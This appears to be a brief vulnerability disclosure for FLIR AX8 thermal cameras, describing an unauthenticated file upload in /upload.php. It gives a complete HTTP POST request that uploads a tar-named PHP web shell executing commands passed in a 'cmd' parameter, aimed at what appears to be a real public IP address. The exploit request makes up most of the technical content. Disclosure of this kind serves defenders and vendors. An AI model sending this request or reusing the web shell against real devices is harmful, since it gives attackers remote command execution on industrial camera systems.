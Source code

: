 ## Unauthority upload in FLIR AX8

### Description

In FLIR AX8 <=1.46 has an Unauthority file upload vulnerabililty in /upload.php

`upload.php`

![image-20250529174454968](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505291744041.png)

- This area is can upload firmware to control the AX8 update .
-  Uploading updates through the construction of compressed files, and the  system decompressing the updates, can lead to arbitrary file upload or  command execution.

```http
POST /upload.php HTTP/1.1
Host: 222.103.211.89:8004
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary12345
Content-Length: 200

------WebKitFormBoundary12345
Content-Disposition: form-data; name="file"; filename="malicious.php.tar"
Content-Type: application/x-tar

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary12345--
```



![image-20250526000719391](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505260007519.png)